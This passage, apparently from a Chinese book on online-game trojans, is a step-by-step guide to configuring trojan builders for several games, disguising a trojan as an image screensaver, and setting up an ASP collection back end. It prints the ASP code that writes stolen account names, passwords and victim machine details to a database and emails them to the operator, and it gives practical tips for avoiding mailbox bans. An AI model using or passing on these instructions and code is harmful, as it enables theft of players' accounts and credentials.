还是先来打开剑侠情缘Ⅱ木马生成器，界面如图 2.26。

这个木马只提供邮箱收信的模式，我们从图的左边就能看出。在程序的左上有作者推荐邮箱，这里又包括网易 163。大多使用邮件发送账号的盗号木马都推荐使用 163 的邮箱，我看这网易的邮箱快成专业接收账号信封的地方了。但是我却不推荐使用网易的邮箱，至于原因我后面会讲到。

我们先来填写木马的配置信息。我使用 21cn 的邮箱为例说明，在接收信箱地址处填写邮箱全称，例如：jinchengwu2@21cn.com。在填写的时候你能发现下面的信箱用户名已经自动填写上了，这就是软件智能的地方。接着我们填写信箱密码，这个就不举例了。填写密码的同时软件也自动把最下面的信箱 SMTP 地址填写完毕，这个软件能识别大多数邮箱的 SMTP 地址，当不能识别时就需要我们手动填写了。



图 2.27

最后再填写发信主题，我的主题就叫“果子”。这些都填写完成后，点击下面的测试发信（图 2.27）。



测试信息已经发送成功，我们登录邮箱看看有没有测试信件。图 2.28 就是我收到的测试信件。

图 2.28

信件中告诉我们这个木马是正式版，而且还能截取仓库密码。请注意看图 2.28 中红线标示的地方，那里是发件人的邮件地址，木马果然是自己往自己的邮箱里发送信件，难怪木马没有叫我们填写发件邮箱。这种发送方式是被网易禁止的，发送的次数少还不会管你，当大规模发送时就会封掉你的邮箱，图 2.29 就是我在网易被禁用的邮箱。



图 2.29

看规定条款，我是非正当方式地使用邮件，过度耗费邮件系统资源。我的邮箱也没在 24 小时后自动解禁，而是永远禁用。这就是我在这个木马中不使用 163 邮箱的原因。其实禁用事小，看不到信件才是主要的。



这个木马生成服务端有两种形式，一种生成图片木马，另一种就是生成 EXE 格式的木马。这里生成的图片木马不是制作网页木马中的图片木马，而是把图片和木马做成一个屏幕保护程序，扩展名为：SCR。我先生成一个这样的木马，点击浏览选择一个图片后再点击生成木马，给文件起名后点击保存。这时会弹出一个对话框，如图 2.30。



点击确定后又会弹出一个对话框，这个对话框显示了你的木马配置信息（图 2.31），我们可以仔细查看一下有没有不对的地方。另外我们还看见了木马设定了打开木马后游戏自动掉线时间为两分钟，这个有点像“啊拉QQ大盗”。木马生成好了，我就牺牲一次，在我的电脑上执行一下，让大家看看效果。



从图 2.32 中能够看出图片已经打开，木马也悄悄地运行了。我们看图 2.32 左上角显示的是图片的名字：temp1.jpg，我们再点击下面的保存，看到如图 2.33，木马是把图片文件释放到系统文件下。



图 2.33

生成 EXE 文件我就不演示了，最后说一下这个木马自带的清除功能。因为前面已经运行了木马，我就直接点击清除本机木马，清除完毕后会提示清除成功。

### 2.6 完美世界木马生成器

刘亦菲代言的完美世界貌似很好玩的样子，我特地找了一个完美世界的木马送给大家。

首先打开木马，界面如图 2.34。



图 2.34

从图中可以看出生成的木马总共有三种收信方式：邮箱、页面和邮箱+页面。用信箱收信方式只需要填写一个邮件地址就可以了，推荐使用 21cn 的邮箱，我估计这里可能使用的是邮件直发技术。填写完了点击生成木马，把名字写上点击保存，弹出一个对话框，如图 2.35。



图 2.35

我第一次点的是取消，结果在文件夹下就没有找到生成的木马。第二次选了确定，木马才生成。这个作者也真够无聊的，还要人家这样感谢他。我们接下来看一下页面收信（图 2.36），作者把各种收信方式的优缺点都写得清清楚楚，我们按照自己的需要进行选择。

先点击下面的释放收信组件到指定目录，填上文件名后点击保存，就会在指定的目录下生成一个 RAR 压缩文件，把它解压缩后得到收信组件（图 2.37）。这套收信组件是用 ASP 编写的，作者在软件的说明中提到需要一个支持 JMAIL 组件的 ASP 空间，我先来解释一下什么是 MAIL 组件，为什么还需要它呢？



图 2.36



图 2.37

#### 小知识

JMail 邮件组件是 Dimac 公司开发的用来完成邮件的发送、接收、加密和集群传输等工作的。W3 JMail 组件是国际最为流行的邮件组件之一，当今世界上绝大部分 ASP 程序页都在使用 W3 JMail 组件构建邮件发送系统，那是因为 W3 JMail 组件使用了新的内核技术，使其更加可靠和稳定。

现在大家明白什么是 JMAIL 了吧，收信组件中 SendMail.asp 是发信文件，我们在木马中填写的也是这个文件的链接地址。这个文件有两个作用：一是把木马传递过来的完美世界账号信息写进数据库中，二是把账号信息作为邮件发送到指定信箱，难怪收信组件需要有 JMAIL 组件的空间。我给大家看两段代码，你们就明白了。

```asp
function SendMail(ToMail,subject,msg)
Dim Jmail
sender="wmsj88@tom.com"  '发送邮箱
Set Jmail=server.createobject("Jmail.Message")
JMail.FromName = "完美世界"
Jmail.Charset = "GB2312"  '发送编码
jmail.ContentType = "text/html"
jmail.ISOEncodeHeaders = "False"
Jmail.Silent = true
Jmail.Priority = 3
Jmail.MailServerUserName = "******"  '邮箱用户名
Jmail.MailServerPassword = "******"  '邮箱密码
Jmail.From = sender
Jmail.Subject = subject
Jmail.AddRecipient ToMail
Jmail.Body=msg
Jmail.Send("smtp.tom.com")  'SMTP服务器
response.write "Send OK"
end function
```

上面这段代码的作用是利用 Jmail 组件中 SendMail 函数发送邮件，代码中在关键地方都有中文注释，很容易理解。我在观察这段代码时发现这中间没有明确写出收件邮箱，而是通过 ToMail 这个参数传递给 SendMail 函数，而且在别的文件中也没有传递这个参数的地方，所以我猜测是木马服务端传递过来的。

```asp
sql="select * from list"
Rs.Open sql,conn,1,3
Rs.AddNew
Rs("ToMail") = ToMail
Rs("User") = User
Rs("Pass") = Pass
Rs("FenQu") = FenQu
Rs("Role") = Role
Rs("WinIP") = WinIP
Rs("WinName") = WinName
Rs("WinBanBen") = WinBanBen
Rs("Time") = Now()
Rs.Update
Response.Write "Send OK!"
Set rs = Nothing
Conn.Close
Set Conn = Nothing
```

这段代码的作用是把账号信息写进数据库。我们把这两段代码的作用结合起来看，是不是觉得有点诡异。什么？你还没看出来？我们平常用网站方式收信，或者把账号保存在一个文本文件（可以自行修改），或者保存在数据库中。第一种实现起来简单，一般只需要一个文件。第二种虽然实现起来复杂并需要多个文件，不过查看起来比用文本文件保存得清楚，便于查询。



这个木马显然已经把账号信息保存在数据库中了，为什么还要发送到邮箱中去呢？如果是结合第三种发信方式（邮箱+页面）还能解释得通，也可能作者在生成木马时做了限制，这些我们都不得而知。其实我们只要能收到信就可以了，不用考虑那么多了。我们在把收信组件上传到空间前别忘了把数据库的名字改了，并把数据库链接文件 Conn.asp 中相应的地方改好。我们第一次登录收信时输入默认的用户账号：admin 和密码：123456。修改用户名密码可以访问 DelphiKing.asp 页面，按照页面上的要求输入用户名、旧密码和新密码，点击确定后虽然没有提示，但已经生效（图 2.38）。

图 2.38

最后在生成木马时别忘了感谢作者，不然你可是找不到木马的。第三种收信方式的设置不废话了，完美世界木马生成器的介绍就结束了。

### 2.7 江湖黑手免费生成器

热血江湖是一款免费网游，免费网游又是靠卖增值服务赚钱，官网的百宝阁可是明码标价地出售装备，再加上其不俗的在线人数，使得热血江湖的虚拟物品有了一定市场。像不久前许多人疯狂刷盛大泡泡堂的点券，然后拿去卖钱。这种行为当然是违法的，我只是想说明虚拟物品交易的火爆。这个“南明古战场”的游戏性还是不错的，不然也不会有那么多人在玩。幸好当初没有请赵本山代言游戏而找了香香，真难以想象赵本山代言游戏的情景。这款江湖黑手免费生成器是专门针对热血江湖的木马，并且不会受到游戏版本更新的影响。



我们打开程序后能看到需要我们填写的地方就两处（图 2.39）：ASP 地址和邮箱地址。木马是通过把账号信息和邮箱地址发送到 ASP 地址，然后 ASP 文件把信息保存在一个文件中并利用 JMAIL 组件发送到邮箱里。这样做就不会被嗅探到邮箱密码了，还能在两个地方保存账号信息。

